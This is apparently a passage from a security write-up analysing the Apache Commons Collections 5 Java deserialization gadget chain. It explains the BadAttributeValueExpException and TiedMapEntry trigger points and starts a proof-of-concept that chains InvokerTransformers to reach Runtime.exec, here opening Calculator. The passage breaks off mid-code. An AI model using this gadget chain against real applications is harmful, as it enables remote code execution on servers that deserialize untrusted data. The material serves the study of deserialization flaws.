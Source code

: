 ```java
    public static void main(
String[] args) {
        try {
            TiedMapEntryDemo();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
<img src="./images/14.png" alt="">

## BadAttributeValueExpException
> In the `javax.management.BadAttributeValueExpException` class, when `System.getSecurityManager() == null` or `valObj` is other basic types except `String`, the `valObj`' toString() method will be called, and this trigger point is used to cooperate with the previous `TiedMapEntry` to complete the chain construction.

<img src="./images/13.png" alt="">

# CommonsCollections5 Analysis
> Using the above two pre-knowledge trigger points, combined with `LazyMap`, you can complete a new attack path, that is, `CommonsCollections5` chain

## POC-1

```java
package CommonsCollections5;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

/**
 * @Author: H3rmesk1t
 * @Data: 2021/11/30 1:59 pm
 */
public class CommonsCollections5Gadge1 {

    public static void CC5() throws ClassNotFoundException, NoSuchFieldException, IOException, IllegalAccessException {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a /System/Applications/Calculator.app"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
```